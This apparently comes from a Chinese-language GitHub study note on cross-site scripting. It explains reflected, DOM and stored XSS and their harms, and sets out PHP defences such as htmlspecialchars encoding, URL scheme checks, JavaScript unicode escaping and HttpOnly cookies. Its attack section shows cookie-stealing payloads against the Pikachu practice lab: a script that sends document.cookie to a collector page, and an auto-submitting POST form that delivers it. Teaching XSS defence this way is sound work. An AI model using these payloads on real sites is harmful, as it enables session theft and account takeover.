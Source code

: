 - [XSS攻击如何产生？](#xss攻击如何产生)
- [主要类型以及原理？](#主要类型以及原理)
- [XSS危害](#xss危害)
- [利用XSS进行攻击活动](#利用xss进行攻击活动)
- [如何防护](#如何防护)


## XSS攻击如何产生？

黑客在你的浏览器中插入一段恶意 JavaScript 脚本，窃取你的隐私信息、冒充你的身份进行操作。这就是 XSS 攻击(Cross-Site Scripting，跨站脚本攻击)

因为浏览器无法区分脚本是被恶意注入的还是正常的内容，它都会执行，况且 HTML 非常灵活，可以在任何时候对它进行修改。

XSS漏洞的核心就是，网页执行了构造的恶意脚本。至于如何让网页执行，就是XSS漏洞的挖掘点。网页的内容一般都是由后端服务器发送过来，一般来说后端服务器接收前端请求，执行一些操作，再返回数据到前端进行展示。

返回的数据有两种来源：

第一种：前端发送过来的，后端进行了一些操作，再发回前端（可能增加、减少数据）
--》这种情况就有可能产生**反射型XSS**

第二种：与数据库交互，从数据库中读取数据到前端显示。
--》这种情况就有可能产生**存储型XSS**（前提是已经将恶意payload写入数据库）

因此对于XSS漏洞的防护就可以从两个角度进行：
- 对输入进行过滤（）
- 对输出进行转义

## 主要类型以及原理？
- 反射型
  - 顾名思义，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又将这部分返回给用户，恶意脚本在页面中被执行。一般发生在前后端一体的应用中，服务端逻辑会改变最终的网页代码。
    eg: ?input=<script>alert(1)</script>
  - <img src="images/image-20210304212336102.png" alt="image-20210304212336102" width="50%;" />

- DOM型
  - 目前更流行前后端分离的项目，反射型 XSS 无用武之地。 但这种攻击不需要经过服务器，我们知道，网页本身的 JavaScript 也是可以改变 HTML 的，黑客正是利用这一点来实现插入恶意脚本。
  - <img src="images/image-20210304212357239.png" alt="image-20210304212357239" width="50%;" />


- 存储型
  - 又叫持久型 XSS，顾名思义，黑客将恶意 JavaScript 脚本长期保存在服务端数据库中，用户一旦访问相关页面数据，恶意脚本就会被执行。常见于搜索、微博、社区贴吧评论等。
  - <img src="images/image-20210304212425402.png" alt="image-20210304212425402" width="50%;" />


## XSS危害

！！因为XSS借助于构造JS脚本实现，所以任何使用JS可以实现的事情都可以通过XSS实现。 
- 通过 document.cookie盗取 cookie中的信息
- 使用 js或 css破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 window.location.href 定位到其他页面）
- dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest或上述 Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

## 利用XSS进行攻击活动
攻击payload的制作分两种类型：
- **Get型 ** 
  构造恶意链接中带有参数

>eg:`http://**.**.**/pikachu/vul/xss/xss_reflected_get.php?message=test&submit=submit`
>
>message的内容会在页面上显示，所以可以在message参数值中构造js语句执行一些恶意操作
>
>eg:`<script>document.location = 'http://**.**.**/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`   盗取cookie值


- **Post型 ** 
需要构造一个页面，页面中包含表单，提交表单数据形成post请求

页面中包含一个表单，表单的请求地址是存在XSS漏洞的页面地址。
post提交的内容是恶意内容，value值。
表单请求执行结果返回到xss_reflected_post.php，触发执行value中的内容。

```html
<html> 
  <head> 
    <script>window.onload = function() {  document.getElementById("postsubmit").click();}</script> 
  </head> 
  <body> 
    <form method="post" action="http://10.201.164.32/pikachu/vul/xss/xsspost/xss_reflected_post.php">     
      <input id="xssr_in" type="text" name="message" value="<script>document.location = 'http://10.201.164.32/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;  </script>"/>     
      <input id="postsubmit" type="submit" name="submit" value="submit" /> 
    </form> 
  </body> 
</html>
```



## 如何防护
根据恶意内容在浏览器上显示的位置不同划分：

1. html普通标签位置输出
   
   将内容输出到`<div> <p> `等html中常见的标签中，当作标签的内容显示。
  -->直接使用htmlspecialchars实体编码即可
   eg:
      ```php
      $div=$_GET['div'];
      //解决方法：
      // $div .= htmlspecialchars($_GET['div'],ENT_QUOTES);  
      <div>
        <?php echo $div;?>
      <div>
      ```
   
   

2. 普通标签的普通属性
   
   如输出到input的value属性值
  -->直接使用htmlspecialchars实体编码即可
   ```php
    $msg .= $_GET['msg'];
      //    防范措施:html实体编码
      //    $msg .= htmlspecialchars($_GET['msg'],ENT_QUOTES);
    <form>
      <input name="msg" value="<?php echo $msg;?>">
    </form>
   ```

3. 输出在事件属性中

  输出位置在标签的事件属性中，如onmouseover
  -->
  ```php

    <form>
      <input type="button" value="submit" onmouseover="init('<?php echo $in;?>')">
    </form>
  ```

4. 输出在特殊的属性中

  如a标签的href属性
  --> 按输入的内容的合法格式进行正则匹配，检查是否是url，再进行html实体编码

  a标签中href属性支持javascript:伪代码执行
  
  ```php
  function check_url($url){
    if (preg_match('/\Ahttp:/',$url) || preg_match('/\Ahttps:/',$url) || preg_match('#\A/#',$url)){
        return true;
    }else{
        return false;
    }
  }
  if (isset($_GET['url'])){
    $url .= htmlspecialchars($_GET['url'],ENT_QUOTES);
  }

  ```

5. 输出点在js中

  输出内容在一段js代码中
  -->转义函数:所有的字符串,除字母,数字,.号,-号外的其他全部进行转义为unicode(utf-8是unicode的一种实现),unicode可以在js中可以被正常解析使用,所有的转义操作在后台进行后输出到前台。
    注意：js本身不解析html实体字符
  
  ```php
  //转换字符的编码
  function unicode_escape($str){
      $u16 = mb_convert_encoding($str[0],'UTF-16');
      return preg_replace('/[0-9a-f]{4}/','\u$0',bin2hex($u16));
  }
  //将字母和数字还有.-排除后的剩下的字符全部\uXXXX的unicode的形式进行转义
  //搜索一个正则,并使用指定的回调函数进行callback
  function escape_js_string($input){
      return preg_replace_callback('/[^-\.0-9a-zA-Z]+/u','unicode_escape',$input);
  }

  
  ```


总体思路:对用户输入进行过滤,对输出进行编码;

1. 对用户输入进行XSS防御方式有2种:
   
   基于黑名单的过滤和基于白名单的过滤. 而白名单相对来说更安全;
   
   黑名单:只规定哪些数据不能被输入,很可能被绕过;比如对 '  "   <> 等进行过滤
   
   白名单:只定义哪些数据正常才能被提交;

2. 设置http-only参数为true,这样JS就不能读取cookie信息了;(特殊常见可能被绕过)
   
   Cookie使用过程：
   
    Step1：浏览器向服务器发起请求，这时没有Cookie。
   
    Step2：服务器返回时发送Set-Cookie头，向客户端浏览器写入Cookie。
   
    Step3：在该Cookie到期前，浏览器访问该域下的所有页面，都将发送该Cookie。
    HTTPOnly是在Set-Cookie时被标记的。服务器可能会设置多个Cookie（多个key-value对），而HttpOnly可以有选择性地加在任何一个Cookie值上。在某些时候，应用可能需要JavaScript访问某几项Cookie，这种Cookie可以不设置HttpOnly标记；而仅把HttpOnly标记给用于认证的关键Cookie。

3. 使用一些函数进行防御

  * htmlspecialchars()：将输入内容转换成HTML实体
  	* &--》&amp 

  	* “  --》&quot

  	* ’  --》&#039

  	* < --》&lt

  	* > --》&gt

  * htmlentities()：把特殊字符转换成HTML实体
  
  	* '  "  &
  * strip_tags()：自动去掉字符中的标签
      	* eg:<script>alert(document.cookie);</script>--->alert(document.cookie)

   使用这种方式，链接跳转也有可能出现XSS

   即标签的href、src等属性中，包含javascript:等可执行代码

   另外，style的属性中：
   background-image:url("javascript:....")

   expression(js代码)
   这两种也有可能导致xss，但目前已被浏览器修复。
   eg：<a href="javascript:alert(&#x27;XSS;&#x27)"></a>(单引号被html编码)

   当用户点击该链接时仍会弹出xss

   需要检验其内容，禁止以javascript:开头的链接或者其他非法的scheme

4. 不要随意打开一些来历不明的网站或链接